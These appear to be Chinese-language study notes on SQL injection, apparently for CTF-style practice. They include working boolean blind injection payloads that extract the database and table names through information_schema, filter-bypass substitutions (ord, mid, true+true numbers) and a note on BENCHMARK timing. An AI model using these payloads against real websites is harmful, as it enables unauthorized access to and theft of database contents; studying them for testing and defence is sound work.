 WHERE 子句在所选列上设置条件，而 HAVING 子句则在由 GROUP BY 子句创建的分组上设置条件。

where 被过滤时还可以使用 right/left/inner join 



盲注时数字被过滤，在 js 中数字几就是几个 true

```
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num
   
```



BENCHMARK 函数 用来测试数据库中特定表达式的执行时间，

BENCHMARK(loop_count, expr)，其中 loop_count 是循环次数，expr 是要循环的表达式。

### 布尔盲注

**概念：符合条件返回真值，不符合条件返回假值，利用二分法找到每个字母的 ascii 码值**

**统一 payload**：

```
?id=-1' and ascii(substr(‘abcd’,1,1))>100 --+
```

将 abcd 换为想要查询的语句即可，<font color=red> ascii 被过滤时使用 ord; substr 被过滤时使用 mid, left, right; 空格过滤可以使用`</font >

```
?id=-1' and ord(substr(‘abcd’,1,1))>100 --+
```



**查询库名:**

```
?id=-1' and ascii(substr((select database()),1,1))>100 --+
```

这段语句的意思是查询数据库名第一个字母的 ascii 码是否大于 100



**查询表名：**

```
?id=-1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+
```

limit 0,1 是从第零行开始查询 1 行
